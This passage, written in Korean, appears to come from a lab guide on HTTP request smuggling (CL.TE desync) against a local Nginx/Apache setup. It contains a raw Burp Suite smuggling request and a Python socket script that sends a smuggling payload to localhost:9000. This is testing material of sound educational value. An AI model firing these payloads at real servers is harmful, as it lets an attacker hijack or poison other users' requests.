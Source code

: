 **예상 동작**:
- Nginx: 155바이트 전부 전송
- Apache: "0\r\n\r\n"까지만 첫 요청으로 처리
- 나머지 "POST /api/submit_inquiry.php..." 부분이 버퍼에 남음
- 다음 정상 사용자 요청이 도착하면 악성 요청이 먼저 처리됨

### 방법 3: Burp Suite 사용

1. **Burp Suite Repeater에서 테스트**

```http
POST /index.php HTTP/1.1
Host: localhost:9000
Content-Length: 4
Transfer-Encoding: chunked
Connection: keep-alive

96
POST /api/submit_inquiry.php HTTP/1.1
Host: localhost:9000
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

name=smuggled&email=test@test
0


```

2. **Update Content-Length 비활성화**
   - Burp > Repeater > Settings
   - "Update Content-Length" 체크 해제

3. **요청 2번 연속 전송**
   - 첫 번째: Smuggled 요청 저장
   - 두 번째: 정상 요청이 smuggled 요청과 결합됨

### 방법 4: Python 스크립트

```python
import socket

# CL.TE Smuggling 페이로드
payload = (
    b"POST /api/submit_inquiry.php HTTP/1.1\r\n"
    b"Host: localhost:9000\r\n"
    b"Content-Length: 6\r\n"
    b"Transfer-Encoding: chunked\r\n"
    b"Connection: keep-alive\r\n"
    b"\r\n"
    b"0\r\n"
    b"\r\n"
    b"G"
)

# 소켓 연결
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(('localhost', 9000))

# Smuggling 요청 전송
sock.sendall(payload)

# 응답 수신
response = sock.recv(4096)
print("Response 1:", response.decode())

```